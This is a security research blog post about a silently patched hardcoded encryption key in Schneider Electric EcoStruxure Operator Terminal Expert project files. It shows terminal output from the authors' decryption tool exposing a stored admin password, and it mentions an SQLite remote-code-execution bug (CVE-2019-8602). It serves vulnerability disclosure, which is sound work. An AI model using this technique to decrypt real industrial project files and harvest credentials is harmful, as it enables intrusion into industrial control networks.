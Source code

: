 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, one of the bugs that we will be revealed with an exploit released that can help network penetration testers and red teams pivot through a compromised network.*</p>

## Overview

<p class="cn" markdown="1">As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even through encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.</p>

## Vulnerable Versions

<p class="cn" markdown="1">Since this was a silent patch, let's be clear about what is vulnerable and what is not. The `EcoStruxure Operator Terminal Expert V3.1.iso` installer with the SHA1 hash `386312d68ba5e6a98df24258f2fbcfb2d8c8521b` *is vulnerable* however the `EOTE3.1SP1.iso` installer with the SHA1 hash `b659bcea11e8bbbed3faf4ad1cabd566116f72f5` **is not vulnerable**.</p>

## Impact

<p class="cn" markdown="1">The project file (.vxdz) file was a simple zip file that could be extracted.</p>

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

<p class="cn" markdown="1">When attempting to determine the file types of the .db files and/or inspect the content, we quickly see that the files are encrypted (and compressed using deflate). Normally this wouldn't be an issue, but the Security.db file can contain sentive information such as usernames and passwords.</p>

```
saturn:~ mr_me$ ./eco.py 
(+) usage: ./eco.py <projectfile> [options <pack/unpack>]
(+) eg: ./eco.py sample.vxdz unpack
(+) eg: ./eco.py sample.vxdz pack
saturn:~ mr_me$ ./eco.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

<p class="cn" markdown="1">Using the tool we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.</p>

<p class="cn" markdown="1">Furthermore, details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability aka [CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).</p>

<p class="cn" markdown="1">Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version as well: `3.8.0.1`.</p>

```
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
```

<p class="cn" markdown="1">The checkpoint blog post had all the formula to craft a working RCE exploit using just CVE-2019-8602.</p>

## Patch

<p class="cn" markdown="1">The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.</p>

{% include image.html
            img="assets/images/silent-schneider-revealing-a-hidden-patch-in-ecostruxure-operator-terminal-expert/patch.png"
            title="A per project password warning"
            caption="A per project password warning"
            style="width:50%;height:50%" %}

## Conclusion

<p class="cn" markdown="1">Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network.</p>

<p class="cn" markdown="1">An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).</p>